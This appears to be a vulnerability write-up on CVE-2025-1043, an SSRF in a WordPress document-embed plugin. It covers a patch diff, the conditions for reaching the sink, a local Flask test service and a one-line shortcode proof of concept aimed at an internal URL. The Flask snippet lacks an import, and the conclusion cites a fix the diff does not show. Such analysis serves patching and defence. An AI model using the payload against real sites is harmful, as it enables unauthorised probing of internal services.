

<!--more-->

## CVE & Basic Info

**The "Embed Any Document – Embed PDF, Word, PowerPoint and Excel Files" plugin** for WordPress contains a **Server-Side Request Forgery (SSRF)** vulnerability in all versions up to and including **2.7.5** via the `'embeddoc'` shortcode. This vulnerability allows authenticated attackers with **Contributor** access or higher to make web requests to arbitrary destinations originating from the web application and can be used to query or modify information from internal services.

* **CVE ID**: [CVE-2025-1043](https://www.cve.org/CVERecord?id=CVE-2025-1043)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.7.5
* **Patched Versions**: 2.7.6
* **CVSS severity**: Low (4.9)
* **Required Privilege**: Contributor
* **Product**: [WordPress Embed Any Document Plugin](https://wordpress.org/plugins/embed-any-document/advanced/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Embed Any Document**: **2.7.5** (vulnerable) and **2.7.6** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to inspect and compare differences between versions.

## Analysis

### Patch diff

```php {title="awsm-embed.php - v2.7.5" hl_lines=[15,17,18,19,24,25,26]}
public function embed_shortcode( $atts ) {
    ...
    $show             = false;
    $shortcode_atts   = shortcode_atts(
        array(
            'url'      => '',
            'drive'    => '',
            'viewer'   => $default_provider,
            'download' => $default_download,
            ...
        ),
        $atts
    );

    if ( isset( $shortcode_atts['url'] ) && ! empty( $shortcode_atts['url'] ) ) :
        ...
        if ( $this->allowdownload( $shortcode_atts['viewer'] ) ) {
            if ( $shortcode_atts['download'] === 'alluser' || $shortcode_atts['download'] === 'all' ) {
                $show = true;
            } elseif ( $shortcode_atts['download'] === 'logged' && is_user_logged_in() ) {
                $show = true;
            }
        }
        $url = esc_url( $shortcode_atts['url'], array( 'http', 'https' ) );
        if ( $show ) {
            $filedata = wp_remote_head( $shortcode_atts['url'] );
            ...
        }
    ...
    return $embed;
}
```

In the vulnerable version, `embed_shortcode()` performs an HTTP HEAD request using `wp_remote_head()` with the `url` value taken directly from `$shortcode_atts['url']`. Because there is no validation, filtering, or scope limitation for the URL, an attacker can supply an arbitrary URL — leading to requests being sent to local services and causing **SSRF**.

```php {title="awsm-embed.php - v2.7.6" hl_lines=[15,17,18,19,24,25,26]}
public function embed_shortcode( $atts ) {
    ...
    $show             = false;
    $shortcode_atts   = shortcode_atts(
        array(
            'url'      => '',
            'drive'    => '',
            'viewer'   => $default_provider,
            'download' => $default_download,
            ...
        ),
        $atts
    );

    if ( isset( $shortcode_atts['url'] ) && ! empty( $shortcode_atts['url'] ) ) :
        ...
        if ( $this->allowdownload( $shortcode_atts['viewer'] ) ) {
            if ( $shortcode_atts['download'] === 'alluser' || $shortcode_atts['download'] === 'all' ) {
                $show = true;
            } elseif ( $shortcode_atts['download'] === 'logged' && is_user_logged_in() ) {
                $show = true;
            }
        }
        $url = esc_url( $shortcode_atts['url'], array( 'http', 'https' ) );
        if ( $show ) {
            $filedata = wp_safe_remote_head( $shortcode_atts['url'] );
            ...
        }
    ...
    return $embed;
}
```

The patch replaces `wp_remote_head()` with **`wp_safe_remote_head()`**, which adds safety checks to **prevent access to internal/private/loopback/link-local addresses**, thereby mitigating SSRF risk.

### Vulnerable Code

To reach the `wp_remote_head( $shortcode_atts['url'] )` call in `embed_shortcode()`, an attacker must bypass the following checks:

1. `url` must be set and not empty

```php
if ( isset( $shortcode_atts['url'] ) && ! empty( $shortcode_atts['url'] ) )
```

2. `$show` must be set to true before entering the HEAD call
   `$show` defaults to `false`. It becomes `true` only when `if ( $this->allowdownload( $shortcode_atts['viewer'] ) )` returns `true` and one of the following is satisfied:

```php
if ( $this->allowdownload( $shortcode_atts['viewer'] ) ) {
    if ( $shortcode_atts['download'] === 'alluser' || $shortcode_atts['download'] === 'all' ) {
        $show = true;
    } elseif ( $shortcode_atts['download'] === 'logged' && is_user_logged_in() ) {
        $show = true;
    }
}
```

* `download` equals `'alluser'` or `'all'`.
* `download` equals `'logged'` and `is_user_logged_in()` returns `true` (i.e., the user is logged in).

```php
public function allowdownload( $provider ) {
    $blacklist = array( 'drive', 'box' );
    if ( in_array( $provider, $blacklist, true ) ) {
        return false;
    } else {
        return true;
    }
}
```

`allowdownload()` returns `true` if the `$provider` (`$shortcode_atts['viewer']`) is not present in the `$blacklist`.


Because the SSRF is performed via HTTP HEAD, the **response body is not returned**, but metadata (Content-Type, Content-Length) can still be disclosed and internal endpoints can be probed. If an endpoint does not distinguish by HTTP method, state-changing actions may be triggered.


`embed_shortcode()` is registered as the shortcode callback:

```php
add_shortcode( 'embeddoc', array( $this, 'embed_shortcode' ) );
```

### Flow


graph TD
A["Shortcode: [embeddoc url=...]"] --> B["embed_shortcode($atts)"]
B --> C{"isset($shortcode_atts['url']) && !empty(...)?"}
C -- Yes --> D{"$this->allowdownload($shortcode_atts['viewer'])?"}
C -- No --> End1[No request]
D -- Yes --> E{"download == 'all'|'alluser' OR (download=='logged' && is_user_logged_in())?"}
D -- No --> End2[No request]
E -- Yes --> F["wp_remote_head($shortcode_atts['url']) ← SSRF sink"]
E -- No --> End3[No request]
F --> G["Return to client"]


## Exploit

### Local Server

Create a simple local service in Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/delete')
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

1. Log in with a Contributor account

2. Create a post with the shortcode

```
[embeddoc url=http://localhost:8001/delete?id=1 download=all]
```

**Result**:



## Conclusion

CVE-2025-1043 is an SSRF due to the plugin calling `wp_remote_head()` with a URL from the shortcode without validation. Although the request is a `HEAD` (no body), it can still disclose metadata and probe internal services or, via redirects or method-agnostic endpoints, cause state changes. The patch (v2.7.6) uses `esc_url_raw()` + `wp_safe_remote_head()` to mitigate the risk.

## Key takeaways

* Cause: missing filtering/whitelist of URLs before making server-side HTTP calls.
* Impact: metadata leak, internal discovery, possible chaining (redirect → GET, method-agnostic endpoints).
* Fix: update to **v2.7.6**.
* Short recommendations: use `wp_safe_remote_*`, `esc_url_raw()`/whitelist, disable redirects when only headers are needed, and limit user privileges.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[WordPress Embed Any Document Plugin <= 2.7.5 is vulnerable to Server Side Request Forgery (SSRF)](https://patchstack.com/database/wordpress/plugin/embed-any-document/vulnerability/wordpress-embed-any-document-embed-pdf-word-powerpoint-and-excel-files-plugin-2-7-5-authenticated-contributor-blind-server-side-request-forgery-via-embeddoc-shortcode-vulnerability)
